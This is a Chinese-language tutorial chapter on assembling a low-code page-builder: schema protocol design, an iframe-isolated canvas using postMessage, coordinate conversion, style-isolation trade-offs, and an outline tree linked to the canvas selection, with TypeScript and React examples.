


## 6. 低代码平台整合（2–3 周）

**业务画像**：让非开发者拖组件搭页面；这是前 5 章能力的总装。

这句话拆开看有三层含义。第一层"非开发者"决定了平台的下限交互必须是拖拽 + 表单配置，不能要求用户写代码——所以属性面板（第 3 章 Setter）、大纲树（第 1 章虚拟树）、表达式编辑器（第 1 章表达式引擎 + 第 5 章编辑器组件）缺一不可。第二层"搭页面"意味着产物不再是一张表单或一个大盘，而是一整棵组件树，其中混合了布局、数据、事件、变量——第 2 章的字段协议、第 4 章的面板协议都只是它的子集。第三层"总装"意味着本章几乎不引入新的底层技术，全部难点在于把前 5 章的零件拼成一台能跑的车：协议要升级到能描述完整页面，编辑器要隔离要协同，运行时要安全地执行用户逻辑。学完本章你应该有"给我一套协议我能造一个平台"的底气。

### 架构

```
编辑器（画布 + 物料面板 + 属性面板 + 大纲树 + 工具栏）
   │ 产出
Schema 协议（组件树 + props + style + events + dataSource + 变量）
   │ 消费
渲染器（递归执行 + 表达式绑定 + 动作引擎）
```

逐行解说这张图，因为它定义了整个平台的数据流和分工边界：

- **第一行"编辑器"**：五个部件各司其职——画布负责所见即所得的摆放与选中；物料面板是第 3 章物料协议的 GUI 呈现（拖出的每一个物料都会变成一个 schema 节点）；属性面板就是第 3 章的 Setter 体系（本章会升级出 ExpressionSetter 与 EventSetter）；大纲树解决画布中"看不见的结构"（弹窗、隐藏容器、深层嵌套）的导航问题；工具栏承载 undo/redo、预览、导入导出。编辑器是一个纯 React 应用，它不执行任何业务逻辑，只产出 schema。
- **"│ 产出"**：箭头是单向的，这一点极其重要。编辑器与渲染器之间**只通过 schema 交换信息**，编辑器不直接调用渲染器内部函数，渲染器也不知道编辑器的存在。这样"预览"就是把 schema 喂给渲染器开个新页面，"发布"就是把 schema 存库，测试渲染器时甚至可以完全不启动编辑器。任何"为了让某个功能好做而让编辑器直接改渲染器内部状态"的捷径，最终都会变成耦合灾难。
- **第二行"Schema 协议"**：中间这行列出的就是本章路线 1 要补齐的六个维度——组件树（`type` + `children`，第 1 章已有）、props（第 1 章已有）、style（样式配置）、events（事件-动作绑定）、dataSource（接口数据声明）、变量（页面级/全局级状态）。协议是整个平台唯一持久化的东西，数据库里存的、版本管理管的就是它，所以它必须可序列化、带版本号（路线 9）。
- **"│ 消费"**：渲染器拿到 schema 后做三件事：递归执行（把树变成组件树，第 1 章递归渲染器）、表达式绑定（对 `bindings` 求值，第 1 章表达式引擎）、动作引擎（执行 `events` 里声明的动作链，本章路线 6）。同一个渲染器既跑在预览页，也跑在正式发布的页面——编辑器里的画布（如果是同 DOM 画布）也是它。
- **一个隐含原则：单一数据源**。编辑器里 schema 存在 zustand 单 store（带 undo/redo），画布、大纲树、属性面板都是它的投影；渲染器里 schema 是只读输入，变量池是运行时状态。schema 永远只有一份权威拷贝，谁改谁通过统一的 `updateSchema` 走 immer patch——这是 undo/redo 能全局成立的前提（第 1 章 1.5）。

### 实现路线（几乎每步都在复用前面章节）

1. **协议升级**（在 1.1 基础上）：节点增加 `style`、`events`（事件-动作绑定）、`dataSource`、`bindings`（数据绑定表达式）
2. 画布：先做同 DOM 画布；**进阶 iframe 隔离画布**（postMessage 通信、选中框跨 iframe 坐标换算、样式隔离）
3. 大纲树：react-arborist 虚拟树，与画布选中态双向联动
4. Setter 进阶：ExpressionSetter（表达式编辑器）、**EventSetter**（动作选择：打开弹窗/调接口/跳转/执行自定义 JS/更新变量）
5. 变量系统：页面级/全局级变量池，渲染时对 `bindings` 表达式求值
6. 动作引擎：action registry，事件触发 → 执行动作链（含串行 await）
7. **安全执行用户自定义 JS**：`new Function` 并不安全（能拿全局对象）；方案：iframe sandbox / quickjs-emscripten 真隔离
8. 出码 vs 渲染（Schwarma 架构取舍）：schema 运行时解释（amis）vs 编译成 React 代码（可维护性），理解各自适用面
9. Schema 版本迁移：协议带 version，写 migration 链（旧版本 schema 升级函数）
10. 选修：协同编辑（Yjs CRDT）、物料远程加载（模块联邦/动态 import）

#### 路线 1：协议升级——style / events / dataSource / bindings

**是什么**：在第 1 章 1.1 的节点协议（`{ type, props, children }`）基础上，把节点扩充为能描述"真实页面"的完整结构——样式怎么呈现（style）、交互做什么（events）、数据从哪来（dataSource）、属性值怎么动态决定（bindings）。

**为什么需要**：第 2/3 章的表单协议只关心字段与校验，第 4 章的面板协议只关心布局与查询。低代码平台的节点是通用组件，"一个商品卡片"同时需要：位置样式（style）、点击跳转（events）、数据来自接口（dataSource）、标题显示变量池里的值（bindings）。这四个维度各自独立声明，才能让"数据"与"表现"解耦——dataSource 改个接口地址，bindings 与 style 不动。

**怎么做**：先给出全部类型定义，再逐个配 JSON 示例。

```ts
// schema/types.ts —— 低代码平台协议（第 3 版，version 字段见路线 9）
export interface SchemaNode {
  id: string;                       // 稳定 id，画布选中/大纲树/undo patch 都靠它
  type: string;                     // 物料名，注册表查找用（'button' | 'card' | 'grid' ...）
  props?: Record<string, unknown>;  // 静态属性：写死的值
  children?: SchemaNode[];          // 容器节点递归 children，原子组件没有
  style?: NodeStyle;                // ← 升级点 1：受控样式子集
  events?: EventBinding[];          // ← 升级点 2：事件-动作绑定
  bindings?: Record<string, string>; // ← 升级点 3：prop 名 → 表达式，动态求值
  dataSourceId?: string;            // ← 升级点 4：挂到页面级哪个数据源
}

// ---- style：白名单式受控子集，不是自由 CSS ----
export interface NodeStyle {
  width?: string;                    // '100px' | '50%'，保留字符串因为单位多样
  height?: string;
  marginTop?: number;                // 间距/字号类用数字，出码/渲染时统一拼 'px'
  marginRight?: number;
  marginBottom?: number;
  marginLeft?: number;
  fontSize?: number;
  color?: string;
  background?: string;
  display?: 'block' | 'flex' | 'inline-flex' | 'none';
  flexDirection?: 'row' | 'column';
  justifyContent?: 'flex-start' | 'center' | 'flex-end' | 'space-between';
  alignItems?: 'flex-start' | 'center' | 'flex-end';
  borderRadius?: number;
  borderWidth?: number;
  borderColor?: string;
}

// ---- events：事件名 → 串行动作链 ----
export interface EventBinding {
  event: string;                     // 'onClick' | 'onChange' | 'onSuccess'（接口回调）...
  actions: ActionConfig[];           // 顺序执行，前一个失败默认中断
}

// 动作配置是 discriminated union：type 收窄 config 的形状
export type ActionConfig =
  | { type: 'openModal'; config: { modalId: string } }
  | { type: 'callApi'; config: { apiId: string; paramsExpr?: string; successActions?: ActionConfig[] } }
  | { type: 'link'; config: { url: string; target?: '_self' | '_blank' } }
  | { type: 'updateVariable'; config: { scope: 'page' | 'global'; name: string; valueExpr: string } }
  | { type: 'runJs'; config: { code: string } }                 // 路线 7 的安全沙箱执行
  | { type: 'emitEvent'; config: { nodeId: string; event: string; payloadExpr?: string } }; // 触发其他节点的事件（死循环源头，见路线 6）

// ---- dataSource：页面级接口声明，节点按 id 引用 ----
export interface DataSourceConfig {
  id: string;
  kind: 'fetch';
  api: string;                       // '/api/users'
  method: 'GET' | 'POST';
  paramsExpr?: string;               // 参数也是表达式："{ keyword: $page.keyword }"，请求发出时求值
  dataPath?: string;                 // 响应取值路径：'data.list'
  pollIntervalMs?: number;           // 定时轮询（第 4 章自动刷新同款，记得 visibilitychange 暂停）
}

// ---- 变量声明 ----
export interface PageVariable {
  name: string;                      // 表达式里用 $page.name 访问
  type: 'string' | 'number' | 'boolean' | 'object' | 'array';
  initial: unknown;
}

// ---- 页面根节点：版本 + 状态 + 数据源 + 组件树 ----
export interface PageSchema {
  version: number;                   // 路线 9 的主角，第一天就要有
  state: {
    pageVariables: PageVariable[];
    globalVariables: string[];       // 只存名字，值在应用全局变量池（登录态、主题等）
  };
  dataSources: DataSourceConfig[];
  nodes: SchemaNode[];
}
```

为什么 `style` 用白名单对象而不是 CSS 字符串：字符串 `style="margin-top:10px"` 需要解析才能 diff、无法静态校验、还可能塞进 `position:fixed` 这类破坏画布布局的值；白名单对象让"属性面板怎么生成 Setter"变得机械（每个字段一个 setter），也让路线 8 的出码器只处理有限集合。为什么 `events` 是数组而不是 `Record<event, actions>`：数组保序（`onClick` 与 `onSuccess` 的展示顺序稳定），且 discriminated union 的 `actions` 天然适合逐条增删。为什么 `bindings` 与 `props` 分离而不是合并：静态值走 `props` 渲染时直接展开，动态值走 `bindings` 渲染时求值并覆盖——分开后"哪些属性是活的"一目了然，diff 与调试都容易。

一份贴近真实的页面 JSON（商品卡片列表 + 刷新按钮）：

```json
{
  "version": 3,
  "state": {
    "pageVariables": [
      { "name": "keyword", "type": "string", "initial": "" },
      { "name": "selectedUser", "type": "object", "initial": null }
    ],
    "globalVariables": ["$global.userName"]
  },
  "dataSources": [
    {
      "id": "ds-users",
      "kind": "fetch",
      "api": "/api/users",
      "method": "GET",
      "paramsExpr": "{ keyword: $page.keyword }",
      "dataPath": "data.list",
      "pollIntervalMs": 30000
    }
  ],
  "nodes": [
    {
      "id": "row-1",
      "type": "grid",
      "style": { "display": "flex", "flexDirection": "row", "gap": 8 },
      "children": [
        {
          "id": "inp-1",
          "type": "input",
          "props": { "placeholder": "搜索用户" },
          "bindings": { "value": "$page.keyword" },
          "events": [
            { "event": "onChange", "actions": [
              { "type": "updateVariable", "config": { "scope": "page", "name": "keyword", "valueExpr": "$event.value" } },
              { "type": "callApi", "config": { "apiId": "ds-users" } }
            ] }
          ]
        },
        {
          "id": "btn-refresh",
          "type": "button",
          "props": { "text": "刷新" },
          "style": { "marginLeft": 8 },
          "events": [
            { "event": "onClick", "actions": [
              { "type": "callApi", "config": { "apiId": "ds-users" } }
            ] }
          ]
        }
      ]
    },
    {
      "id": "card-list",
      "type": "cardList",
      "dataSourceId": "ds-users",
      "bindings": { "items": "$ds['ds-users'].data" }
    }
  ]
}
```

读这份 JSON 时注意三个细节：`bindings.value` 让输入框受控于页面变量（回显永远一致，避开第 2 章"undefined/null/'' 三态"坑）；`onChange` 的动作链是"先更新变量、再调接口"的串行语义（路线 6 实现它）；`$event.value` 是事件上下文注入的临时变量，与 `$page`/`$global`/`$ds` 一样都住在表达式引擎的求值上下文里（第 1 章 1.4）。

**常见坑（症状→根因→修法）**：症状——属性面板改一个字号，画布组件整个消失。根因——`style` 直接整包替换时把 `display` 丢了，或用户输入的 `width` 没带单位（React 会把无单位数字忽略/警告）。修法——Setter 层做"字段级 patch"（`updateStyle(nodeId, { fontSize: 14 })` 用 immer 深合并），渲染层对数值类字段统一拼 `'px'`，对 `width/height` 强制校验单位后缀。

#### 路线 2：画布——从同 DOM 到 iframe 隔离画布

**是什么**：画布是编辑器中间那块"页面预览区"。同 DOM 画布指画布组件与编辑器渲染在同一个 document 里（第 3 章就是这么做的）；iframe 隔离画布指把渲染器（连同 schema）装进一个 `<iframe>`，编辑器只通过 postMessage 与它通信。

**为什么需要**：同 DOM 画布有三个解决不了的问题。第一，样式污染——编辑器的全局 CSS（reset、antd 的样式）会打到画布组件上，画布里物料写的全局样式也会反过来打坏编辑器 UI，双方都"不干净"。第二，业务组件副作用——物料的 `useEffect` 可能往 `document.body` 挂 portal、改 `document.title`、注册全局快捷键，这些都会污染编辑器。第三，隔离升级——物料若依赖不同 React 版本或全局 polyfill，同 DOM 下直接冲突。iframe 给了画布一个独立的 document、独立的样式作用域、独立的全局对象，编辑器与画布互不伤害。代价是：跨 document 的事件与坐标都要靠消息协议搬运——这正是本路线的重头。

**怎么做（一）postMessage 协议设计**。跨 iframe 通信只有 postMessage 一条路，协议必须在第一天设计好，否则后面每种交互都要临时发明消息格式。设计原则：所有消息带 `channel` 字段做命名空间（一个 iframe 可能同时被多种协议使用）；宿主→画布与画布→宿主各自定义成 discriminated union；握手先行、带协议版本号；不确定的消息一律忽略而不是报错。

```ts
// iframe/protocol.ts —— 双端共用，独立成包避免两份定义漂移
export const LC_CHANNEL = 'lowcode-canvas';
export const PROTOCOL_VERSION = 2;

// 编辑器 → 画布
export type HostToCanvas =
  | { channel: typeof LC_CHANNEL; kind: 'bootstrap'; protocolVersion: number; schema: PageSchema }
  // 握手后的全量初始化：schema 是唯一数据源，画布随时可被无状态地重建
  | { channel: typeof LC_CHANNEL; kind: 'schema-update'; schema: PageSchema }
  // schema 变更推送：画布收到后整体重渲染（大树可换 patch 增量，见下文性能注）
  | { channel: typeof LC_CHANNEL; kind: 'select'; nodeId: string | null }
  // 大纲树/属性面板选中了某节点 → 画布高亮该节点并 scrollIntoView
  | { channel: typeof LC_CHANNEL; kind: 'hover'; nodeId: string | null }
  | { channel: typeof LC_CHANNEL; kind: 'drag-move'; innerX: number; innerY: number }
  // 拖拽中：宿主把指针位置换算成 iframe 内部坐标后转发（拖拽期间 iframe 已 pointer-events:none）
  | { channel: typeof LC_CHANNEL; kind: 'drop'; materialName: string };

// 画布 → 编辑器
export type CanvasToHost =
  | { channel: typeof LC_CHANNEL; kind: 'ready'; protocolVersion: number }
  // 握手：iframe 加载完成后主动上报，宿主收到才发 bootstrap（崩溃自动重载后也会重新握手）
  | { channel: typeof LC_CHANNEL; kind: 'selected'; nodeId: string | null }
  // 用户在画布里点击 → 请求编辑器切换选中态（选中态的唯一权威在编辑器 store）
  | { channel: typeof LC_CHANNEL; kind: 'hovered'; nodeId: string | null }
  | { channel: typeof LC_CHANNEL; kind: 'drop-target'; parentId: string; index: number }
  // 画布内部命中测试的结果：宿主据此画插入指示线（若指示线画在画布内则不需要回传）
  | { channel: typeof LC_CHANNEL; kind: 'node-rect'; nodeId: string; left: number; top: number; width: number; height: number }
  // 节点几何信息：宿主用它在外层画选中框（矩形数值是 iframe 内部坐标系，见坐标换算）
  | { channel: typeof LC_CHANNEL; kind: 'viewport'; scrollY: number }
  // 画布滚动/尺寸变化：宿主的选中框覆盖层必须跟随
  | { channel: typeof LC_CHANNEL; kind: 'error'; message: string; nodeId?: string };

// 发送 helper：targetOrigin 用 '*' 是因为 sandbox iframe 是 opaque origin，无法给出具体源；
// 安全性靠接收端校验 e.source 实现（见下文宿主代码）
export function postToCanvas(iframe: HTMLIFrameElement, msg: HostToCanvas) {
  iframe.contentWindow?.postMessage(msg, '*');
}
```

握手流程：iframe 加载完成 → 发 `ready`（带自己支持的协议版本）→ 宿主比较版本：相等则发 `bootstrap`；宿主比画布新（画布是缓存的旧 JS）则提示"画布引擎已更新，正在刷新"并重载 iframe；画布比宿主新一般发生在灰度回滚，同样重载宿主。`schema-update` 全量推送在千节点内足够快（画布端 memo + key 稳定，第 1 章 1.3/1.7），树再大就把 immer patches 一并传过去、画布端 `applyPatches` 增量更新——协议里预留 `patches?: Patch[]` 字段即可平滑升级。

**怎么做（二）宿主侧编辑器与画布容器**。

```tsx
// editor/CanvasFrame.tsx
import { useCallback, useEffect, useRef } from 'react';
import { useEditorStore } from './store';
import {
  LC_CHANNEL, PROTOCOL_VERSION, type CanvasToHost, type HostToCanvas, postToCanvas,
} from '../iframe/protocol';

export function CanvasFrame({ zoom }: { zoom: number }) {
  const iframeRef = useRef<HTMLIFrameElement>(null);
  const wrapperRef = useRef<HTMLDivElement>(null);
  const schema = useEditorStore((s) => s.schema);
  const select = useEditorStore((s) => s.select);

  // 1) 接收画布消息（选中/悬停/几何/滚动），按 kind 分发
  useEffect(() => {
    const onMessage = (e: MessageEvent) => {
      // 校验来源：sandbox iframe 的 origin 是 'null'（字符串），唯一可靠的校验是窗口引用比对
      if (e.source !== iframeRef.current?.contentWindow) return;
      const msg = e.data as CanvasToHost;
      if (msg?.channel !== LC_CHANNEL) return; // 命名空间过滤：忽略其他协议与第三方脚本的消息
      switch (msg.kind) {
        case 'ready':
          // 握手：无论首次加载还是崩溃自动恢复，都无状态地重新 bootstrap
          postToCanvas(iframeRef.current!, {
            channel: LC_CHANNEL, kind: 'bootstrap', protocolVersion: PROTOCOL_VERSION, schema,
          });
          break;
        case 'selected':
          select(msg.nodeId);          // 画布点击 → 更新全局选中态（大纲树会自动跟随）
          break;
        case 'node-rect':
          // 坐标换算后更新覆盖层（见 toEditorRect），此处交给 zustand 的 overlay 状态
          useEditorStore.getState().setOverlayRect(toEditorRect(msg, wrapperRef.current!, zoom));
          break;
        case 'viewport':
          useEditorStore.getState().setOverlayScroll(msg.scrollY);
          break;
        case 'error':
          console.error('[canvas]', msg.message, msg.nodeId);
          break;
      }
    };
    window.addEventListener('message', onMessage);
    return () => window.removeEventListener('message', onMessage);
  }, [schema, select, zoom]);

  // 2) schema 变化 → 推给画布（画布只是投影，schema 权威永远在编辑器 store）
  useEffect(() => {
    const iframe = iframeRef.current;
    if (!iframe) return;
    postToCanvas(iframe, { channel: LC_CHANNEL, kind: 'schema-update', schema });
  }, [schema]);

  // 3) 选中态变化 → 通知画布高亮
  const selectedId = useEditorStore((s) => s.selectedId);
  useEffect(() => {
    iframeRef.current && postToCanvas(iframeRef.current, { channel: LC_CHANNEL, kind: 'select', nodeId: selectedId });
  }, [selectedId]);

  // 4) 拖拽时禁掉 iframe 的指针事件，让父页面接管 mousemove（否则指针一进 iframe 宿主就收不到事件）
  const dragging = useEditorStore((s) => s.dragging);
  useEffect(() => {
    if (iframeRef.current) iframeRef.current.style.pointerEvents = dragging ? 'none' : 'auto';
  }, [dragging]);

  const onDragOverCanvas = useCallback((e: React.DragEvent) => {
    e.preventDefault(); // 允许 drop
    const inner = toInnerPoint(e.clientX, e.clientY, wrapperRef.current!, zoom);
    postToCanvas(iframeRef.current!, { channel: LC_CHANNEL, kind: 'drag-move', innerX: inner.x, innerY: inner.y });
  }, [zoom]);

  return (
    <div ref={wrapperRef} style={{ overflow: 'auto', position: 'relative' }}>
      <div style={{ width: 1200 * zoom, height: 'fit-content', transformOrigin: '0 0' /* 缩放锚点必须是左上角，坐标公式才成立 */ }}>
        <iframe
          ref={iframeRef}
          src="/canvas/index.html"
          sandbox="allow-scripts"       // 不给 allow-same-origin：画布拿不到宿主的 cookie/DOM
          style={{ width: 1200, height: 800, border: 'none', display: 'block', transform: `scale(${zoom})` }}
          onDragOver={onDragOverCanvas}
        />
      </div>
      <SelectionOverlay /> {/* 选中框覆盖层：绝对定位在 wrapper 内，用 node-rect 换算后的坐标 */}
    </div>
  );
}
```

**怎么做（三）跨 iframe 坐标换算**。这是 iframe 画布最容易写错的部分，先把几何关系说清楚：iframe 内部组件的 `getBoundingClientRect()` 返回的是 **iframe 自己的视口坐标系**（缩放前的内部 CSS 像素）；编辑器要在外层画选中框，需要的是**编辑器页面坐标系**。两者之间隔着两件事：iframe 外框在编辑器里的位置，以及画布缩放系数 `zoom`。

```ts
// iframe/coords.ts
// 前提：iframe 的 transform-origin 是 '0 0'，这样 (0,0) 内部点恰好映射到外框视觉左上角
export function toEditorRect(
  inner: { left: number; top: number; width: number; height: number },
  wrapper: HTMLElement,
  zoom: number,
) {
  const w = wrapper.getBoundingClientRect(); // 外框在编辑器页面里的位置（已包含 scale 的视觉效果）
  return {
    left: w.left + inner.left * zoom,        // 内部 x 乘 zoom 变成编辑器像素，再平移到外框原点
    top: w.top + inner.top * zoom,
    width: inner.width * zoom,
    height: inner.height * zoom,
  };
}

// 反向换算：编辑器坐标（如拖拽指针 clientX/clientY）→ iframe 内部坐标（画布做命中测试用）
export function toInnerPoint(clientX: number, clientY: number, wrapper: HTMLElement, zoom: number) {
  const w = wrapper.getBoundingClientRect();
  return { x: (clientX - w.left) / zoom, y: (clientY - w.top) / zoom };
}
```

公式为什么是线性的：CSS `transform: scale(z)` 配合 `transform-origin: 0 0` 就是纯粹的"平移 + 等比缩放"仿射映射——内部点 `(x, y)` 的屏幕位置是 `(w.left + x·z, w.top + y·z)`。一旦 `transform-origin` 是默认的 `center`，映射里会多出一个与外框尺寸相关的常数项，公式立刻失真，选中框会随缩放漂移——这是"选中框漂移"坑的第一根因。注意换算用的 `w` 必须每次实时读取（`getBoundingClientRect`），因为编辑器面板开合会移动外框。

**怎么做（四）画布侧运行时**（打进 `/canvas/index.html` 的独立入口）。

```ts
// canvas/main.ts
import { LC_CHANNEL, type HostToCanvas } from '../iframe/protocol';
import { mountRenderer } from './renderer'; // 第 1 章递归渲染器 + 本章 bindings 求值 + 事件分发

const unmount = { current: () => {} };

window.addEventListener('message', (e: MessageEvent) => {
  const msg = e.data as HostToCanvas;
  if (msg?.channel !== LC_CHANNEL) return;
  switch (msg.kind) {
    case 'bootstrap':
    case 'schema-update':
      unmount.current();
      unmount.current = mountRenderer(msg.schema, document.getElementById('root')!, {
        // 运行时把画布点击/悬停上报给宿主：data-node-id 属性是命中测试的锚
        onSelect: (nodeId) => e.source!.postMessage(
          { channel: LC_CHANNEL, kind: 'selected', nodeId }, '*'),
        onHover: (nodeId) => e.source!.postMessage(
          { channel: LC_CHANNEL, kind: 'hovered', nodeId }, '*'),
        onRect: (nodeId, rect) => e.source!.postMessage(
          { channel: LC_CHANNEL, kind: 'node-rect', nodeId, ...rect }, '*'),
      });
      break;
    case 'select': {
      // 宿主选中（来自大纲树/属性面板）→ 画布高亮 + 滚动到该节点
      document.querySelectorAll('[data-node-id]').forEach((el) =>
        el.classList.toggle('lc-selected', el.getAttribute('data-node-id') === msg.nodeId));
      const target = msg.nodeId && document.querySelector(`[data-node-id="${msg.nodeId}"]`);
      target?.scrollIntoView({ block: 'nearest', inline: 'nearest' });
      break;
    }
    case 'drag-move': {
      // 宿主转发的指针位置（内部坐标）→ 命中测试 → 画插入指示线
      const hit = hitTestContainer(msg.innerX, msg.innerY); // elementFromPoint + data-accept-container 上溯
      showInsertIndicator(hit?.parentId, hit?.index);
      break;
    }
    case 'drop':
      // 宿主说"放了某物料"：画布只负责计算落点，真正插节点的是宿主（schema 权威）
      const hit = lastHit;
      e.source!.postMessage({ channel: LC_CHANNEL, kind: 'drop-target',
        parentId: hit?.parentId ?? '', index: hit?.index ?? 0 }, '*');
      break;
  }
});

// 加载完成 → 主动握手
window.parent.postMessage({ channel: LC_CHANNEL, kind: 'ready', protocolVersion: 2 }, '*');
```

注意分工：**命中测试在画布做（它有 DOM），schema 变更在宿主做（它是权威）**。drop 时画布回报 `parentId/index`，宿主插入节点、store 更新、`schema-update` 推回来，画布重渲染——一去一回形成闭环。反过来让画布直接改 schema 就会出现双写，undo/redo 立刻乱掉。

**怎么做（五）样式隔离手段对比**。

| 手段 | 隔离强度 | 隔离了什么 | 代价 | 适用 |
|---|---|---|---|---|
| CSS 命名空间（postcss 前缀 / CSS Modules） | 弱 | 只防"选择器撞名"，不防全局 reset、`*` 选择器与行内注入 | 几乎为零 | 同 DOM 画布的最低配置 |
| Shadow DOM | 中 | 外部 CSS 进不来（除 CSS 变量可穿透继承）、内部样式不外泄 | 事件被重定向、`portal`/弹层难处理、React 事件系统需注入 | 组件级隔离（单物料内部） |
| iframe（无 allow-same-origin） | 强 | 独立 document/样式表/全局对象，双向完全隔离 | 通信只能 postMessage、坐标/拖拽要搬运（本路线全部内容）、内存开销一个 browsing context | 画布级隔离的标准答案 |

选型结论：画布用 iframe；物料内部如果还有强烈的样式自洽需求（比如要嵌入第三方组件），再叠加 Shadow DOM；命名空间只作为编辑器自身代码的卫生习惯。低代码领域的主流工程（lowcode-engine 的画布模拟、各家大厂的搭建平台）画布最终形态几乎都是 iframe。

**性能注**：iframe 画布每次 `schema-update` 全量重挂载会闪。两个缓解：渲染器入口对 schema 做浅比较后走 React 的正常 reconcile（`mountRenderer` 内部用同一个 root 调 `root.render`，React 的 diff 会复用 DOM）；以及前述 patch 增量方案。选中态高亮绝不要走 schema 更新（那是重渲染），直接改 class / 发消息即可。

**常见坑（症状→根因→修法）**：症状——拖拽从物料面板进入画布区域后，drop 指示线不动了，drop 也落不进去。根因——浏览器的 pointer 事件不会穿透 iframe：指针进入 iframe 后，父页面的 `dragover` 不再触发，宿主拿不到坐标。修法——拖拽期间把 iframe 设为 `pointer-events: none`（上面代码第 4 步），父页面持续收到 move，换算成内部坐标后用 `drag-move` 消息让画布做命中测试与指示线渲染。

#### 路线 3：大纲树与画布选中态双向联动

**是什么**：左侧大纲树（react-arborist 虚拟树）与中间画布共享同一个"当前选中节点"，任意一侧变化另一侧立刻跟随：树里点节点 → 画布高亮并滚动可见；画布里点组件 → 树选中该节点并滚动到它。

**为什么需要**：画布只暴露"看得见的东西"，而 schema 树里有大量画布上不可见或难以精确点中的结构——`display:none` 的隐藏容器、未打开的弹窗与抽屉、深层嵌套的第 20 个子节点。大纲树是结构导航器；没有选中态联动的树与没有树联动画布，用户就要"在两个世界里各找一遍"。这也是编辑器"单一数据源"原则的又一次落地：选中态放在 zustand 里，两个视图都只是订阅它。

**怎么做**：树数据由 schema 派生（`useMemo`），选中态受控传入；画布侧的选中变化经路线 2 的 `selected` 消息写入同一个 store。

```tsx
// editor/OutlineTree.tsx
import { useEffect, useMemo, useRef } from 'react';
import Tree, { type TreeApi, type TreeRef } from 'react-arborist';
import { useEditorStore } from './store';
import { materialRegistry } from '../materials';
import type { SchemaNode } from '../schema/types';

interface OutlineItem { id: string; name: string; children?: OutlineItem[] }

// schema 树 → 大纲树数据：名字用物料元信息里的 label（"卡片列表"而不是 "cardList"）
function toTreeData(nodes: SchemaNode[]): OutlineItem[] {
  return nodes.map((n) => ({
    id: n.id,
    name: materialRegistry.get(n.type)?.label ?? n.type,
    children: n.children?.length ? toTreeData(n.children) : undefined,
  }));
}

export function OutlineTree() {
  const treeRef = useRef<TreeRef>(null);
  const schema = useEditorStore((s) => s.schema);
  const selectedId = useEditorStore((s) => s.selectedId);
  const select = useEditorStore((s) => s.select);

  const treeData = useMemo(() => toTreeData(schema.nodes), [schema]);

  // 反向联动：画布选中（store 变化）→ 树同步选中并滚到可见（树很长时 scrollToId 才有意义）
  useEffect(() => {
    if (!selectedId) return;
    // scrollToId 若当前树为受控 selection 模式，只负责滚动；具体 API 以所装版本 TreeApi 为准
    treeRef.current?.scrollToId(selectedId);
  }, [selectedId]);

  return (
    <Tree
      ref={treeRef}
      data={treeData}
      selection={selectedId ?? undefined}   // 受控选中：唯一权威是 store
      onActivate={(node) => select(node.id)} // 正向联动：点树 → 更新 store → 画布经消息高亮
      indent={16}
      rowHeight={28}
      height={600}
    >
      {({ node, style, data }) => (
        <div style={{ ...style, display: 'flex', alignItems: 'center', gap: 6 }}>
          <span aria-hidden>{node.isOpen ? '▾' : '▸'}</span>
          <span>{data.name}</span>
        </div>
      )}
    </Tree>
  );
}
```

双向联动的完整链路画一遍（这是面试与实战都会问的细节）：

1. 用户点击画布里的卡片 → iframe 内命中测试得到 `nodeId` → `postMessage({kind:'selected'})` → 宿主 `select(nodeId)` 写 store。
2. store 变化触发两个订阅者：`OutlineTree` 的受控 `selection` 变了（React 更新树），effect 里 `scrollToId` 把该节点滚进可视区。
3. 同时路线 2 的 `CanvasFrame` effect 发 `select` 消息回画布 → 画布给该节点加 `lc-selected` class 并 `scrollIntoView`。
4. 大纲树点击则从第 2 步之后开始走，方向相反。

